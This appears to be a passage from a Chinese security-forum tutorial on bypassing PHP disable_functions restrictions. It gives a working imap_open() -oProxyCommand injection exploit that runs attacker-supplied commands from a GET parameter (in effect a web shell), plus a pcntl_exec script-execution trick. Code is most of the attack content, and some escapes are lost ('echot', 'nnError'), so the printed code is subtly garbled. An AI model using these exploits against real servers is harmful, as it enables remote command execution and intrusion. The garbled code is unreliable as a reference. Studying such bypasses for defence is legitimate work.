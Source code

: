 ```php
```

选择可上传目录路径,上传exp  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-26a0daa755588381cff00eac3f7265edb02596d5.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-26a0daa755588381cff00eac3f7265edb02596d5.png)

包含文件执行  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-905ab0ad921571e725edbd49af4787e5b5ea2fa2.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-905ab0ad921571e725edbd49af4787e5b5ea2fa2.png)

利用imap\_open()绕过
----------------

利用条件需要安装iamp扩展,命令行输入:`apt-get install php-imap`  
在php.ini中开启imap.enable\_insecure\_rsh选项为On；重启服务。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6e3eed7a045e2b790bed7bcd59f8fef9165057ff.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6e3eed7a045e2b790bed7bcd59f8fef9165057ff.png)

基本原理为:

```php
PHP 的imap_open函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。该漏洞的存在是因为受影响的软件的imap_open函数在将邮箱名称传递给rsh或ssh命令之前不正确地过滤邮箱名称。如果启用了rsh和ssh功能并且rsh命令是ssh命令的符号链接，则攻击者可以通过向目标系统发送包含-oProxyCommand参数的恶意IMAP服务器名称来利用此漏洞。成功的攻击可能允许攻击者绕过其他禁用的exec 受影响软件中的功能，攻击者可利用这些功能在目标系统上执行任意shell命令。
```

EXP:

```php
<?php 
error_reporting(0); 
if (!function_exists('imap_open')) { 
die("no imap_open function!"); 
} 
$server = "x -oProxyCommand=echot" . base64_encode($_GET['cmd'] .
">/tmp/cmd_result") . "|base64t-d|sh}"; 
//$server = 'x -oProxyCommand=echo$IFS$()' . base64_encode($_GET['cmd'] .
">/tmp/cmd_result") . '|base64$IFS$()-d|sh}'; 
imap_open('{' . $server . ':143/imap}INBOX', '', ''); // or
var_dump("nnError: ".imap_last_error()); 
sleep(5); 
echo file_get_contents("/tmp/cmd_result"); 
?>
```

利用Pcntl组件
---------

如果目标机器安装并启用了php组件Pcntl,就可以使用pcntl\_exec()这个pcntl插件专有的命令执行函数来执行系统命令,也算是过黑名单的一钟,比较简单。

[exp](https://github.com/l3m0n/Bypass_Disable_functions_Shell/blob/master/exp/pcntl_exec/exp.php)为:

```php
#pcntl_exec().php
<?php pcntl_exec("/bin/bash", array("/tmp/b4dboy.sh"));?>
#/tmp/b4dboy.sh
#!/bin/bash
ls -l /
```
